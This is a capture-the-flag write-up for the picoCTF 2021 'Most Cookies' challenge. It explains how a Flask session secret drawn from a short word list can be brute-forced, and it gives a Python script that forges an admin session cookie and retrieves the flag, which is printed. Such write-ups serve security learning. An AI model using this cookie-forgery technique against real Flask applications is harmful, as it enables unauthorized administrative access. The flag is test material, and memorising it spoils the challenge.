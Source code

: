 # Decription
```
Alright, enough of using my own encryption. Flask session cookies should be plenty secure
```

We are given a python code of the site made with flask [server.py](https://github.com/ulissesj/CTFs/blob/main/picoCTF2021/most_cookies/server.py)

## Solution
We need to access /display by the GET method containing the admin cookie. I'm not familiar with flask, but after some research I found that flask cookies are encrypted in a specific way.
To find the secret key we need to get through the find the secret key, decode it, get through cookie_names, and send it back encrypited containing "admin" in "very_auth" field.
Running the script, we can get the flag.

```
import manageFlaskSession
import requests
import re

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

r = requests.post("http://mercury.picoctf.net:18835/search", data={"name": "butter"})
server_cookie = r.cookies["session"]

for cookie in cookie_names:
    try:
        my_cookie = manageFlaskSession.decodeFlaskCookie(cookie, server_cookie)
        print(f"Found correct key: {cookie}, contents = {my_cookie}")
        new_cookie = manageFlaskSession.encodeFlaskCookie(cookie, {u'very_auth': 'admin'})
        print("Testing new cookie: {new_cookie}")
        r = requests.get("http://mercury.picoctf.net:18835/display", cookies={"session": new_cookie})
        if match := re.search(r"picoCTF{[^}]+}", r.text): #regex to find the flag in the source code
            print ("Flag: {match.group(0)}")
        break
    except Exception:
        pass

```

### picoCTF{pwn_4ll_th3_cook1E5_743c20eb}

References:
[Flask sessions](https://pythonbasics.org/flask-sessions)

[Flask session cookie decoder/encoder](https://github.com/noraj/flask-session-cookie-manager)

[Useful John Hammond video](https://www.youtube.com/watch?v=kru8On32BqY)
